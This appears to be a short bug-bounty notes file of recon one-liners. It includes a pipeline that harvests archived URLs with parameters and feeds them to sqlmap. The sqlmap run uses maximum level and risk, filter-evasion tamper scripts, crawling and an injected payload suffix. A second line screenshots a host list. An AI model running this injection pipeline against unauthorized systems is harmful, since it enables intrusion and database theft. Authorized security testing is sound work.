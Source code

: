 # Bugbounty
## 2024 Oneliners found online

#### Check SQL
waybackurls 'URL TARGET'| grep '='| httpx --silent --status-code| awk '{print $1}'| xargs -I{} sqlmap -u {} -v 3 --random-agent --tamper "between,randomcase,space2comment" --level 5 --risk 3 --batch --threads 5 --crawl 2 --suffix=') and 1=1-- -'

#### Screenshot
cat hosts | gowitness scan file -f - --write-csv  
